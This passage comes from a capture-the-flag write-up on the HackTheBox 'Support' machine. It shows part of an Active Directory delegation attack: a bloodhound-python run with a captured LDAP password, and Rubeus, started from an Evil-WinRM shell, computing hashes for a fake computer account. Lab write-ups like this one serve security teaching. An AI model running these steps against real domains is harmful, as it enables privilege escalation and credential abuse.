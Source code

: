 ```
AceType            : AccessAllowed
AceFlags           : None
IsInherited        : False
InheritanceFlags   : None
PropagationFlags   : None
AuditFlags         : None
```

There is an ACL with the `SecurityIdentifier` of my fake computer and it says `AccessAllowed`.

I can also re-run Bloodhound now:

```
oxdf@hacky$ bloodhound-python -c ALL -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174
...[snip]...
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 0xdfFakeComputer.support.htb
INFO: Querying computer: dc.support.htb
WARNING: Could not resolve: 0xdfFakeComputer.support.htb: The DNS query name does not exist: 0xdfFakeComputer.support.htb.
INFO: Done in 00M 14S
```

It calls out that it can’t find 0xdfFakeComputer.support.htb, which makes sense. It shows this new permission:

![image-20220527153649549](https://0xdfimages.gitlab.io/img/image-20220527153649549.png)

#### Auth as Fake Computer

I’ll use `Rubeus` to get the hash of my fake computer account:

```
*Evil-WinRM* PS C:\programdata> .\Rubeus.exe hash /password:0xdf0xdf123 /user:0xdfFakeComputer /domain:support.htb
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4

[*] Action: Calculate Password Hash(es)

[*] Input password             : 0xdf0xdf123
[*] Input username             : 0xdfFakeComputer
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTB0xdffakecomputer
[*]       rc4_hmac             : B1809AB221A7E1F4545BD9E24E49D5F4
[*]       aes128_cts_hmac_sha1 : F7A01B9628299B9FB8A93CFCCF8E747C
[*]       aes256_cts_hmac_sha1 : 90499A3696F8B07B9CDB02E919F193768519340F7812F6050177E6997262B6F0
[*]       des_cbc_md5          : 76EF4F97ADD99176
```
